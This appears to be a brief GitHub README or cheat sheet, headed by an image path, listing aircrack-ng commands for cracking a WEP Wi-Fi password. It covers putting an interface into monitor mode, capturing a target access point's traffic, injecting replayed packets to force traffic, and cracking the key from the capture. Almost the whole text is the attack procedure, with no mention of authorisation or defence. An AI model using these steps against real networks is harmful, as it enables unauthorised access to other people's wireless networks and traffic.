 # INSTALL
sudo apt install aircrack-ng

# STARTING CRACK 

## READ WIFI NETWORK INTERFACE DATA
sudo su 
iw dev

# START CRACKIGNG
airmon-ng start <INTERFACE_NAME>
iw dev # now wifi network interface has another name
airodump-ng <INTERFACE_NAME_MONITOR_MODE>
airodump-ng -c <NUM_CHANNEL> --bssid <AP_MAC_ADDRESS> -w <OUTPUT_FILE_CAPTURE> <INTERFACE_NAME_MONITOR_MODE>

# FORCE NETWORK TRAFFIC
aireplay-ng -3 <INTERFACE_NAME_MONITOR_MODE> -b <AP_MAC_ADDRESS>


# CRACK WEP PASSWORD USING <OUTPUT_FILE_CAPTURE> 
aircrack-ng <OUTPUT_FILE_CAPTURE> 

# STOP MONITOR MODE
airmon-ng stop <INTERFACE_NAME>
